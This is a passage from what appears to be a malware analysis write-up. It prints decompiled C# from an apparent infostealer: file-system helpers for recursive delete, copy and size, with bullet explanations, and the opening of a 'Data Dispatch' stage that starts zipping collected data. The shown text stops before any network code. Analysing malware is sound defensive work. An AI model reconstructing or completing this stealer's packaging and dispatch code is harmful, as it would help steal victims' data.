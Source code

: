 ```csharp
			}
		}

		// Token: 0x06000014 RID: 20 RVA: 0x00002F64 File Offset: 0x00001164
		public static long DirectorySize(string path)
		{
			DirectoryInfo directoryInfo = new DirectoryInfo(path);
			return directoryInfo.GetFiles().Sum((FileInfo fi) => fi.Length) + directoryInfo.GetDirectories().Sum((DirectoryInfo di) => Filemanager.DirectorySize(di.FullName));
		}
	}
}

```

### **RecursiveDelete**

- Checks if the target directory exists.
- If it exists:
    - Recursively calls itself for each subdirectory.
    - Deletes all files in the directory.
    - Deletes the directory itself.
- No action if directory does not exist.

---

### **CopyDirectory**

- Checks if the destination directory exists; creates it if missing.
- Copies all files from source to destination using `File.Copy`.
- Recursively copies each subdirectory into the corresponding destination.
- Logs errors (e.g., access denied) to the console during copy attempts.

---

### **DirectorySize**

- Sums the size of all files in the target directory using `Directory.GetFiles` and `FileInfo.Length`.
- Recursively calls itself for all subdirectories and adds their sizes.
- Returns total directory size as `long` (bytes).

# Stage 9: Data Dispatch

```csharp
using System;
using System.IO;
using System.Net;
using System.Text;
using Ionic.Zip;
using Main;

namespace Senders
{
	// Token: 0x02000003 RID: 3
	internal class DataDispatch
	{
		// Token: 0x06000004 RID: 4 RVA: 0x00002178 File Offset: 0x00000378
		public static void ZipCompression()
		{
			try
			{
				using (ZipFile zipFile = new ZipFile(Encoding.GetEncoding("cp866")))
				{
```